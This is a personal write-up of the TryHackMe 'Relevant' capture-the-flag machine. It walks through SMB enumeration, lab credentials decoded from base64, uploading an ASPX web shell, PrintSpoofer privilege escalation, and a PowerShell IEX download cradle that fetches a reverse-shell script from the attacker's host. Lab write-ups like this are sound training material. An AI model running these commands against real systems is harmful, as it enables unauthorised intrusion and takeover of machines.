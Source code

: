 # Relevant [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.121.25
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

Some ports came up, one of which is `80`. Until this scan ends, let's browse the website:

```
firefox $targ3t
```

There's a windows server welcome screen. Let's run it through `feroxbuster`:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

The `nmap` scan has ended while we were at it. The ports discovered are: 

```
80/tcp      http
135/tcp     msrpc
139/tcp     netbios-ssn
445/tcp     microsoft-ds
3389/tcp    ssl/ms-webt-server?
```

These ports don't seem to have valid ways in, any exploits associated with them or anything. Before I dive deeper, I'll run a full nmap scan for all ports, just in case.

```
nmap -p- $targ3t -oN nmap.full.scan -vv
```

New ports:

```
49663/tcp   unknown
49667/tcp   unknown
49669/tcp   unknown
```

Let's see what theese ports are:

```
nmap -sV -p 49663,49667,49669 $targ3t -oN nmap.service.scan -vv
```

We did find out somet things:

```
49663/tcp   http
49667/tcp   msrpc
49669/tcp   msrpc
```

Let's visit the `http` one:

```
firefox $targ3t:49663
```

This endpoint seems to be identical to the `80/tcp` port. 

<sup>_Assisted by a [write-up](https://madushan-perera.medium.com/tryhackme-relevant-walkthrough-6e7c83def069):_</sup> I didn't know of this flag `smbclient` had, but apparently we can check for shares on an SMB port:

```
smbclient -L $targ3t
```

One of the shares returned has Sharename `nt4wrksv`, so we're going to try to connect to it:

```
smbclient \\\\$targ3t\nt4wrksv
```

And it works, we got an anonymous login prompt.

```
ls
```

Shows there's a `password.txt` on here:

```
get passwords.txt
```

Let's quit the `smbclient` and see what's inside this file:

```
cat apsswords.txt
```

This looks like `base64` encoded strings:

```
sed -n 2p passwords.txt | base64 -d
```

The returned string is `Bob - !P@$$W0rD!123`. Let's check the next one:

```
sed -n 3p passwords.txt | base64 -d
```

The returned string: `Bill - Juw4nnaM4n420696969!$$$`. I don't remember any login interfaces, I wonder if these passwords are going to work on RDP:

```
xfreerdp /u:RELEVANT\Bob /p:'!P@$$W0rD!123' /v:$targ3t:3389 /cert:ignore
```

This command and many other variations (without Domain, without `/cert`) failed for different reasons, it gives a different error each time. Before trying something else, I'll enumerate SMB once again with `nmap`:

```
nmap --script vuln -p 445 $targ3t -oN nmap.vuln.scan
```

Two vulnerabilities were found: `CVE-2011-1002` which is a DoS and `CVE-2017-0143` which is a highly familiar ms17-010, a.k.a `eternal_blue`. 

```
searchsploit --cve 2017-0143
```

There is a python exploit for remote code execution:

```
searchsploit -m windows_x86-64/remote/41987.py
```

Tried running this script a number of times with different changes and fixes, even saw github repo it referenced but nothing worked. But I understand that the whole point of this is that I'm allowed to upload a file to the share and reference it in the browser. I'll try to upload a shell now:

I looked for an `aspx` shell and I found this [neat little thing](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx) on GitHub.

```
smbclient \\\\$targ3t\\nt4wrksv
put shell.aspx
quit
curl http://$targ3t:49663/nt4wrksv/shell.aspx
```

And you get a webshell interface. On the right you can simply navigate to `C:\Users\Bob\Desktop\user.txt` and that's the first flag. `C:\Users\Administrator` is off limits, so we can try to see what privileges are exploitable. On the left type in the shell:

```
whoami \priv
```

This is what's returned:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
w 
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I have escalated privileges on Windows through SeImpersonatePrivilege before and after a quick google search found several GitHub repositories that allow a file to be uploaded to the remote machine and exploit this Privilege. Only one had `.exe` executable released so I used that one:

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
smbclient \\\\$targ3t\\nt4wrksv
put PrintSpoofer64.exe
quit
```

Now all we need to do is, serve a PowerShell reverse shell from a local python server and start a netcat listener alongside it:

```
python -m http.server 8080
nc -lvnp 9876
```

Download the following `ps1` reverse shell:

```
wget https://raw.githubusercontent.com/martinsohn/PowerShell-reverse-shell/refs/heads/main/powershell-reverse-shell.ps1
```

Make changes to this file, add your local IP address and Port instead of the ones in use. And now in our `aspx` web shell, let's execute the following command: 

```
PrintSpoofer64.exe -i -c "powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://10.11.100.243:8080/powershell-reverse-shell.ps1')"
```

And in our netcat listener we get the root shell:

```
SHELL>
```

Let's find out who we are:

```
SHELL> whoami
nt authority\system
```

Which means we can navigate to the root flag:

```
Set-Location C:\Users\Administrator\Desktop
Get-ChildItem
```

There is a `root.txt` here:

```
Get-Content root.txt
```

That's our root flag!

<sub>_I avoided using `metasploit` on this machine and even though I had help from a write-up, I still fared pretty well, imho. I initially wanted to go full reverse shell mode and use WinPeas but thank god for PrintSpoofer._</sub>
